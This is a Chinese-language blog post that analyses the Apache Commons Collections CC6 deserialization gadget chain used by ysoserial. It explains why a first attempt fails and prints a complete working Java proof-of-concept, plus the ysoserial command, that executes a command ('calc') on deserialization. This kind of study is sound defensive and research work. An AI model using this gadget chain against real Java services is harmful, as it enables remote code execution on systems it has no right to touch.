









前置
前面的链子CC1在低版本的JAVA中并不能够成功执行EXP
在这个链子中我们就可以在高版本中成功利用
实际就是找到了成功执行LazyMap#get()方法
ysoserial项目中的利用链

p牛的简化利用链
/*
Gadget chain:
java.io.ObjectInputStream.readObject()
java.util.HashMap.readObject()
java.util.HashMap.hash()
org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
org.apache.commons.collections.map.LazyMap.get()
org.apache.commons.collections.functors.ChainedTransformer.transform()
org.apache.commons.collections.functors.InvokerTransformer.transform()
java.lang.reflect.Method.invoke()
java.lang.Runtime.exec()
*/分析
POC的编写
在p牛的链子中
找到了一个org.apache.commons.collections.keyvalue.TiedMapEntry类中的getValue方法调用了get方法
同时在这个类中的hashCode()方法调用了getValue方法，所以我们需要找到哪里调用了TiedMapEntry#hashCode方法
在HashMap#hash中的key对象就调用了hashCode方法，我们只需要让key为TiedMapEntry就成功造成了链子

同时在其readObject中也有hash的调用

接下来我们按照这个链子，开始编写POC
//仿照ysoserial中的写法，防止在本地调试的时候触发命令
Transformer[] faketransformers = new Transformer[] {new ConstantTransformer(1)};
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"}),
new ConstantTransformer(1),
};
Transformer transformerChain = new ChainedTransformer(faketransformers);
Map innerMap = new HashMap();
Map outMap = LazyMap.decorate(innerMap, transformerChain);之后创建一个TiedMapEntry对象，并触发他的hashCode方法
//实例化
TiedMapEntry tme = new TiedMapEntry(outMap, "key");
Map expMap = new HashMap();
//将其作为key键传入
expMap.put(tme, "value");然后将真正的利用链传入
//传入利用链
Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);最后就是序列化它，并反序列它
//序列化
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(expMap);
oos.close();
//输出序列化字符串
System.out.println(barr);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object o = ois.readObject();
但是他并没有执行命令弹出计算器，我们调试分析一下

那是因为在LazyMap#get中没有进入这个if语句，导致执行命令的transform没有被执行
POC中并没有传入一个键名为key的键值对，但是我们从POC中的TiedMapEntry tme = new TiedMapEntry(outMap, "key")可以分析得到他的构造方法中并没有对Map中的键值对进行修改

我们继续追踪tme，发现后面将其作为了键名传入了expMap中，expMap也就是HashMap类的对象
他的put方法也调用了hash函数和hashCode方法，所以等于在生成payload的时候就已经再次调用了这个利用链，并因此生成了具有key值的Map对象(在调用了get方法后的super.map.put(key, value))
所以在反序列化的时候不能够进入get方法的if语句
我们只需要将Map中的key键的键值对给移除了，就可以成功弹出计算器
//移除key值
outMap.remove("key");所以成功的POC：
package ysoserial.vulndemo;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
public class CC6_POC {
public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
//仿照ysoserial中的写法，防止在本地调试的时候触发命令
Transformer[] faketransformers = new Transformer[] {new ConstantTransformer(1)};
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"}),
new ConstantTransformer(1),
};
Transformer transformerChain = new ChainedTransformer(faketransformers);
Map innerMap = new HashMap();
Map outMap = LazyMap.decorate(innerMap, transformerChain);
//实例化
TiedMapEntry tme = new TiedMapEntry(outMap, "key");
Map expMap = new HashMap();
//将其作为key键传入
expMap.put(tme, "value");
//remove
outMap.remove("key");
//传入利用链
Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);
//序列化
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(expMap);
oos.close();
//输出序列化字符串
System.out.println(barr);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object o = ois.readObject();
}
}ysoserial之payload生成
java -jar ysoserial.jar CommonsCollections6 "calc" > CC6.ser反序列化过程
在Object o = ois.readObject();打下断点
单步调试进入了HashMap类

进入了hash方法

这里的key是TiedMapEntry的对象，调用了对应的hashCode方法
然后调用了他的getValue方法

因为这里的this.map是HashMap的对象，所以调用了他的get方法
参考
代码审计-知识星球


- Post link: https://roboterh.github.io/2022/03/20/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BCC6/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.